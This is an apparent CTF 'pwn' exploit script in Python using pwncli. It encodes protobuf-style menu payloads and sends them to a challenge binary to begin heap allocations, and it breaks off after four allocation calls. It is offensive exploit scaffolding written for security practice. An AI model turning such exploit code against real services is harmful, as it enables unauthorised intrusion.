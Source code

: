 ```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('./libc-2.31.so')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

import subprocess

def pack(choice, idx, size, data):
    with open("./tmpdata", "wb") as fd:
        fd.write(data)
    payload = subprocess.Popen(['./pack', str(choice), str(idx), str(size)],
              stdin=PIPE,
              stdout=PIPE,
              stderr=PIPE
              ).stdout.read()
    ru(b'You can try to have friendly communication with me now: \n')
    s(payload)

'''
08 choice*2
10 idx*2
18 size*2
01 22 len str
'''
def new_pack(choice, idx, size, length, data):
    payload = p8(0x08) + p8((choice*2))
    payload += p8(0x10) + p8((idx*2))
    if ((size*2) & 0xffffffffff00):
        payload += p8(0x18) + p8((size*2)&0xff) + p8(0x03)
    else:
        payload += p8(0x18) + p8(i2b(size*2)) + p8(0x01)
    payload += p8(0x22)
    if length < 0x80:
        payload += p8(length)
    else:
        payload += p8(length) + p8(0x1)
    payload += data
    ru(b'You can try to have friendly communication with me now: \n')
    s(payload)

#  pack(1, 1, 0xf0, b"a"*0xa0)
#  ia()

pack(1, 0, 0xf0, b"a")
pack(1, 1, 0xf0, b"a")
pack(1, 2, 0xf0, b"a")
pack(1, 3, 0xf0, b"a")
```